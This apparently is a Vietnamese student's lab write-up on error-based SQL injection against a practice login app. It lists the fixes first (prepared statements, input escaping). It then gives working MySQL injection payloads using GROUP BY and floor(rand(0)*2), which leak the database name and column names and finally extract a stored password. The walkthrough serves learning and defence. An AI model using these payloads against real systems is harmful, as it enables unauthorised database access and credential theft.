 # Link demo : 
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Khi em vào giao diện sẽ như thế này


![Alt text](./imagesBooleanBase/image.png)

- Đây là đoạn code dính lỗi sqli:

![Alt text](./imagesErrorBase/image-1.png)

- Em thử dùng lỗi error base để kiểm tra: em sử dụng payload :"' or 1=1 group by concat(database(),'-', floor(rand(0)*2)) having min(0)-- -" trong cheat seet sqli

- or 1=1: Điều kiện luôn đúng, mục đích là để thêm điều kiện vào câu truy vấn.
- group by concat(database(),'-', floor(rand(0)*2)): Group các kết quả theo giá trị của chuỗi được tạo ra bằng cách ghép nối tên cơ sở dữ liệu, dấu "-", và một giá trị ngẫu nhiên (0 hoặc 1).
- having min(0): Điều kiện HAVING luôn đúng, vì giá trị nhỏ nhất trong trường min(0) là 0.

+ Em nhận được kết quả
![Alt text](./imagesErrorBase/image-2.png)

- Em có thể thấy được là kết quả trả ra lỗi của database task2_kcsc bảng users và có 1 cột là id
- Em tiếp tục tìm các cột khác trong bảng users
Payload : ' or 1=1 group by concat((select column_name from information_schema.columns where table_name='users' limit 2,1),'-',floor(rand(0)*2)) having min(0)-- -
![Alt text](./imagesErrorBase/image-3.png)
- sau đó em dùng : ' or 1=1 group by concat((select password from users limit 2,1),'-',floor(rand(0)*2)) having min(0)-- -
-> Em nhận được mật khẩu là hihi123


